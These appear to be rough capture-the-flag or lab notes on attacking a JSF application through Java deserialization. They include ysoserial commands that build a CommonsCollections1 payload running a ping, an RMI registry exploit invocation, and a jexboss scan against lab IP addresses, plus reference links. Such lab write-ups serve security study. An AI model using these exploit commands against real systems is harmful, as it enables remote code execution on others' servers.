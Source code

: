 CRafting PayloAd

This is a tool for crafting payloads for different json enviroments. apache myface uses commons-code-1.3-3.2.1.jar 

install python3 pycrypt

sudo apt-get install build-essential python3-dev



<https://github.com/frohoff/ysoserial>

<https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html>

```
java -jar ysoserial/ysoserial.jar CommonsCollections1 "cmd.exe ping -c 3 10.10.14.49" > joker.ysoserial
```

```
java -cp ysoserial/ysoserial.jar ysoserial.exploit.RMIRegistryExploit 10.10.14.49 80 CommonCollections1 > gold.txt
```

jsf

java server faces

the server if configured to store everything on the server side. 

<https://medium.com/@D0rkerDevil/how-i-found-a-1500-worth-deserialization-vulnerability-9ce753416e0a>

trying to find some exploit tools and ran jexboss.py it doens't appear to be vulnerable.

```
./jexboss.py -u http://10.10.10.130:8080/userSubscribe.faces 
```

![jexboss](jexboss.PNG)
